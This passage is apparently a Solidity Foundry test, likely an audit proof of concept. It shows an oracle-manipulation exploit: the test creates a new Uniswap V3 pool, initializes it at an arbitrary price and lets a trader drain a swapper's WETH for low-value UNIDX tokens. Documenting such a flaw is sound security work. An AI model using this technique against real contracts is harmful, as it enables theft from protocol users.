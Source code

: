 ```solidity

        //try to get quoate and call will fail
        vm.expectRevert(Pool_DoesNotExist.selector);
        oracleUniV3Impl.getQuoteAmounts(qParams);

        //now create unidx - eth pool for 0,05% fee
        IUniswapV3Factory(UNISWAP_V3_FACTORY).createPool(WETH9, UNIDX, 5_00);

        unidxETHPool = IUniswapV3Factory(UNISWAP_V3_FACTORY).getPool(WETH9, UNIDX, 5_00);
        assertNotEq(unidxETHPool, address(0));

        uint reserveWETH = 1 ether;
        uint reserveUniDX = 1 ether;

        uint160 sqrtPow96Price =  uint160( (2 ** 96) * sqrt(reserveUniDX/reserveWETH));
        IUniswapV3Pool(unidxETHPool).initialize(sqrtPow96Price);
      

        //need to wait the necessary period, depends of the configuration let's say defaultPeriod = 30 minutes
        skip(1800);
        
        uint256[] memory amounts = oracleUniV3Impl.getQuoteAmounts(qParams);
        for(uint i; i< amounts.length; i++){
            console.log("Amount: ", amounts[i]);
        }
        oracleParams.oracle = OracleImpl(address(oracleUniV3Impl));
        //the swapper with the oracle
        swapperFactory = new SwapperFactory();
        createSwapperParams = SwapperFactory.CreateSwapperParams({
            owner: users.alice,
            paused: false,
            beneficiary: beneficiary,
            tokenToBeneficiary: UNIDX,
            oracleParams: oracleParams
        });
        
        swapper = swapperFactory.createSwapper(createSwapperParams);
       
       
        //giving the swapper some unidx tokens; simulating that it already have them in to be able to make the swap
        //giving the trader some UNIDX tokens, simulating as it is already holding them
        deal(address(WETH9), address(swapper), 1 ether);
        deal(address(UNIDX), trader, 1 ether);

        vm.startPrank(trader);
        IERC20(UNIDX).approve(address(swapper), 1 ether);
        swapper.flash(qParams, "");
        vm.stopPrank();

        uint afterTraderWETHBalance = IERC20(WETH9).balanceOf(trader);
        uint afterSwapperWETHBalance = IERC20(WETH9).balanceOf(address(swapper));
        uint afterBeneficiarUNIDXBalance = IERC20(UNIDX).balanceOf(beneficiary);

        assertEq(afterBeneficiarUNIDXBalance, 0.99 ether); //beneficiary received 0,99e+18 UNIDX balance, even if the price for 1 UNIDX is ~6$
        assertEq(afterTraderWETHBalance, 1 ether); //trader received 1 weth for 6$ worth of UNIDX
        assertEq(afterSwapperWETHBalance, 0); //swapper doesn't have weth anymore


   }
```